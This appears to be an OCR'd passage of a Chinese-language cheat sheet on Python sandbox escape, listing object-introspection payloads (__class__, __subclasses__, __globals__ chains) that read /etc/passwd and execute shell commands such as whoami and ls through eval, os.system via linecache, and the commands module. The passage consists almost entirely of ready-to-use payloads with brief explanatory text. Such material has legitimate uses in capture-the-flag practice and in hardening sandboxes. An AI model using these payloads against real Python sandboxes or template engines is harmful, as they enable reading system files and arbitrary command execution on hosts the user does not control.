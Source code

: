```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```

写文件换为 .write() 即可。

**命令执行**

**No.1**

利用eval 进行命令执行。

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```

或者。。。

**No.2**

利用warnings.catch_warnings 进行命令执行。

首先，查看 warnings.catch_warnings 方法的位置：

```python
[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
```

查看 linecatch 的位置：

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')
```

查找 os 模块的位置：

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')
```

查找 system 方法的位置：

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')
```

调用 system 方法：

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
```

**No.3**

利用 commands 进行命令执行。

```python
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
```
